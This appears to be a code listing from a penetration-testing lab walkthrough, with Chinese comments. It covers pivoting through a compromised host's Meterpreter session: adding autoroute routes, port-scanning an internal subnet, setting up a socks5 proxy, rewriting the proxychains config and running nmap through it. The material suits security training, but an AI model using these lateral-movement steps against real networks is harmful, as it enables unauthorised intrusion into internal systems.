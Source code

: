 ```bash
ipconfig
# 查看路由表和 ARP 表
route
arp

# 根据发现的内网信息，创建路由
run autoroute -s 192.177.84.0/24

# 检查 Pivot 路由是否已创建成功
run autoroute -p

# 返回 msfconsole
#Ctrl+Z

# 使用 portscan 工具扫描发现内网主机

search portscan
use auxiliary/scanner/portscan/tcp
show options

# 设置目标 IP
set RHOSTS 192.177.84.2-254
# 设置扫描端口范围 
## 根据预知的信息 得知 7001 端口开放，实战环境需要扫描所有可能的端口
set PORTS 7001
# 设置线程数
set THREADS 10
# 运行扫描
run -j

# 扫描完成后，查看主机存活情况
hosts

# 查看发现的服务列表
services

# 建立 socks5 代理

search socks_proxy
use auxiliary/server/socks_proxy
run -j

# 查看后台建立 socks5 代理是否成功
jobs -v

# 开启新的 ssh 会话连接 kaliattacker

# 检查 1080 端口开放情况
sudo lsof -i tcp:1080 -l -n -P

# 编辑 /etc/proxychains4.conf 配置文件
sudo sed -i.bak -r "s/socks4\s+127.0.0.1\s+9050/socks5 127.0.0.1 1080/g" /etc/proxychains4.conf

# 使用 proxychains4 命令扫描内网主机
proxychains sudo nmap -vv -n -p 7001 -Pn -sT 192.177.84.2-5

## 端口状态为 filter 时，验证网络层连通性
#curl http://192.170.84.2:7001 -vv
#curl http://192.170.84.3:7001 -vv
#curl http://192.170.84.4:7001 -vv

# 返回 msfconsole 并重连 meterpreter 会话
sessions -i [meterpreter 会话 ID]
```